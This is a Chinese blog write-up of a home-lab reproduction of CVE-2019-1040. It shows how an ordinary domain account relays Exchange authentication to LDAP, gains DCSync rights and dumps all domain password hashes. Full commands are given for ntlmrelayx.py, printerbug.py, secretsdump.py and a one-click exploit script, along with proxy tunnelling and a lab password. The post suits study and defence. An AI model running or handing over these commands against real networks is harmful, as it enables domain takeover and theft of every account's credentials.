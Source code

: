 ```yaml
---
title: "Cve 2019 1040 Intranet Killer"
date: 2020-03-28T11:53:53+08:00
draft: flase
tags: [域渗透]
categories: [内网渗透]
comment: true
---
```

 CVE-2019-1040内网大杀器利用
<!--more-->

# CVE-2019-1040内网大杀器利用

- 前言

前两天闲来无事重新在虚拟机搭建了一个域环境，装上了EXCHANGE2013版本，于是想着顺便复现一下大杀器。

- 背景描述：

此漏洞在exchange_RCE未出现前是域内大杀器，此漏洞可运用于已有域账户但是exchange已修补rce漏洞情况下展开攻击。2019年6月12日，微软官方在6月的补丁日中发布了漏洞 CVE-2019-1040的安全补丁，攻击者可以利用该漏洞绕过NTLM MIC（消息完整性检查）。攻击者可以修改NTLM身份验证流程中的签名要求，完全删除签名验证，并尝试中继到目标服务器，不强制执行签名的服务器都易受到攻击。通过这种攻击能使攻击者在仅有一个普通域账号的情况下可远程控制 Windows 域内的任何机器，包括域控服务器。
	
- 漏洞利用条件

1.已有域成员账号密码，存在一台exchange服务
2.已有域成员账号密码，目标域内存在两个域。
3.**这里仅演示exchange**

- 漏洞细节

用任何AD帐户，通过SMB连接到目标Exchange服务器，并触发SpoolService错误。目标服务器将通过SMB回连至攻击者主机，使用ntlmrelayx将SMB身份验证中继到LDAP。使用中继的LDAP身份验证，为攻击者帐户授予DCSync权限。攻击者帐户使用DCSync转储AD中的所有密码哈希值。

- 环境搭建

```
DC（exchange）192.168.1.104
Windows7 域内机器 192.168.1.102
Atttcker:Mac 192.168.1.100
```

## 漏洞利用过程

### 漏洞利用

- VPS搭建frp代理服务端

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200327162506.png)

- Win7搭建代理隧道

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200327162700.png)

- Atttcker proxychains4

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200327162820.png)

- ntlmrelayx.py进行中继攻击

>执行ntlmrelayx.py脚本进行NTLM中继攻击，设置SMB服务器并将认证凭据中继到LDAP协议。其中–remove-mic选项用于清除MIC标志，–escalate-user用于提升指定用户权限

```
proxychains4 python ntlmrelayx.py --escalate-user WIN7User -t ldap://AD.syst1m.local -smb2support --remove-mic --delegate-access
```
![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200327163009.png)

- Win7搭建代理隧道

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200327163108.png)

- Atttcker frpc配置

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200327163146.png)

- Proxifier添加隧道，代理frpc

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200313152252.png)

- Atttcker 启动 frpc

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200327172910.png)

- printerbug.py脚本

>触发SpoolService的bug

```
python printerbug.py 域/用户名:密码@打印机服务ip 回连ip
```
```
proxychains4 python printerbug.py syst1m.local/WIN7User:win7user521.@192.168.1.104 192.168.1.102
```

**SpoolService的bug导致Exchange服务器回连到ntlmrelayx.py，即将认证信息发送到ntlmrelayx.py**

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200327183658.png)

- ntlmrelayx.py结果

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200327200545.png)

**secretsdump.py去dcsync**

- secretsdump

```
proxychains4 secretsdump.py syst1m.local/WIN7User@syst1m.local -just-dc
```

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200327173405.png)

#### CVE-2019-1040一键化脚本

**来自evi1cg师傅写的利用工具**

```
https://github.com/Ridter/CVE-2019-1040
```

- 使用方式

```
python CVE-2019-1040.py -ah 192.168.1.100 -u 'WIN7User' -p 'win7user521.' -d 'syst1m.local' -th 192.168.1.103 192.168.1.104
```

- 漏洞利用

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200327164746.png)

### 参考

```
https://github.com/Ridter/CVE-2019-1040
https://dirkjanm.io/exploiting-CVE-2019-1040-relay-vulnerabilities-for-rce-and-domain-admin/
```

- 原文

[cve-2019-1040-intranet-killer](https://syst1m.com/post/cve-2019-1040-intranet-killer/)